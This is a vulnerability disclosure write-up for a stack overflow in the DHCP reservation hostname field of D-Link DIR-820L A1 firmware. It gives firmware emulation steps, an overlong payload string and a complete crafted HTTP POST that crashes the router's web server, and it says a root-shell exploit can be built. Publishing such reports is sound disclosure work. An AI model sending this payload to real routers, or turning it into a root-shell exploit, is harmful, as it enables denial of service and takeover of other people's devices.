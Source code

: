 # D-link DIR820LA1_FW106B02 Stack Overflow  vulnerability

A stack overflow vulnerability  in the variable "reserveDHCP_HostName_1.1.1.0" of the component "lan.asp" of D-Link DIR820LA1_FW106B02 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： https://www.dlinktw.com.tw/techsupport/download.ashx?file=3068

## 1. Affected version

![pic](pic.png)Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_50A084` function obtains the content of the variable `reserveDHCP_HostName_1.1.1.0`  from the request of `/get_set.ccp`, use sprintf to copy input data. The length of the string is not considered, and the stack overflows when the input is too long.

v21's buffer is only 68 bytes

![vuln1](vuln1.png)

![vuln2](vuln2.png)

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW106B02.bin

```shell
./init.sh
sudo ./run.sh -c <brand> DIR820LA1_FW106B02.bin
```

![D-link](D-link.png)

2. Attack with the following POC attacks

​	**Attack Vector**：

`reserveDHCP_HostName_1.1.1.0=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa`

![DHCP](DHCP.png)

- Then find the DHCP Setting entry, and use Burp to modify the data message to be consistent with the poc

```xml
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 917
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/lan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=set&old_ip=192.168.0.1&old_mask=255.255.255.0&new_ip=192.168.0.1&new_mask=255.255.255.0&nextPage=lan.asp&lanHostCfg_IPAddress_1.1.1.0=192.168.0.1&lanHostCfg_SubnetMask_1.1.1.0=255.255.255.0&lanHostCfg_DomainName_1.1.1.0=&lanHostCfg_DNSRelay_1.1.1.0=1&lanHostCfg_DHCPServerEnable_1.1.1.0=1&lanHostCfg_MinAddress_1.1.1.0=192.168.0.100&lanHostCfg_MaxAddress_1.1.1.0=192.168.0.200&lanHostCfg_DHCPLeaseTime_1.1.1.0=1440&lanHostCfg_DeviceName_1.1.1.0=dlinkrouter&lanHostCfg_AlwaysBroadcast_1.1.1.0=0&lanHostCfg_NetBIOSAnnouncement_1.1.1.0=0&lanHostCfg_NetBIOSLearn_1.1.1.0=0&lanHostCfg_NetBIOSScope_1.1.1.0=&lanHostCfg_NetBIOSNodeType_1.1.1.0=2&lanHostCfg_PrimaryWINSAddress_1.1.1.0=0.0.0.0&lanHostCfg_SecondaryWINSAddress_1.1.1.0=0.0.0.0&reserveDHCP_Enable_1.1.1.0=1&reserveDHCP_HostName_1.1.1.0=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa&reserveDHCP_Chaddr_1.1.1.0=C6:E0:6F:4C:9B:A5&reserveDHCP_Yiaddr_1.1.1.0=192.168.0.100&1675231457867=1675231457867
```

- web server crashed

![crash](crash.png)



Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell.